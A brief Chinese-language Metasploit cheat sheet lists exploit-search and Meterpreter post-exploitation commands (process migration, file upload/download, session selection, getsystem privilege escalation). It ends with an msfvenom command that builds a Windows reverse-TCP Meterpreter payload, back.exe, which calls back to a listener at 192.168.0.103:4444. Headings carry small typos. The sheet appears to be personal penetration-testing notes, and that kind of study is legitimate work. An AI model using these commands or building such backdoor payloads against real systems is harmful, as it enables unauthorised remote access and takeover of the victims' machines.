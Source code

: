 # Metasploit

---

search cve:2009 type:exploit app:client

info 展示相关信息

show advanced 列出所有高级配置

check 检车目标是否选定渗透攻击存在相应安全漏洞


---

# Metgetpid

注入进程　migrate 

上传文件  　upload　　

下载文件　　 download 

session -l 列出可用的交互会话

session -i number 选定会话

获取最高权限  sysinfo getsystem 

---
# msfvenom 

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe


